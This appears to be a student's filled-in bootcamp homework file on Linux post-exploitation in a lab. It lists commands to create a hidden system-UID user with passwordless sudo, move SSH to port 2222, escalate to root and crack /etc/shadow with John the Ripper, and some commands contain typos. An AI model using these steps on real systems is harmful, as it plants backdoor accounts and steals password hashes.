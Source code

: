 
## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. 
    - `sudo adduser sysd`

![picture](Images\sudo_adduser.png)

2. Give your secret user a password: 
    - `sudo passwd sysd ` 

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 987 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 987 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`
   -  `Sysd ALL=(ALL:ALL) NO PASSWD:ALL`

6. Test that `sudo` access works without your password:

    -   `sudo -l`

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `sudo nano /etc/ssh/sshd_config`

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh `

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222 `

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su` 
    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

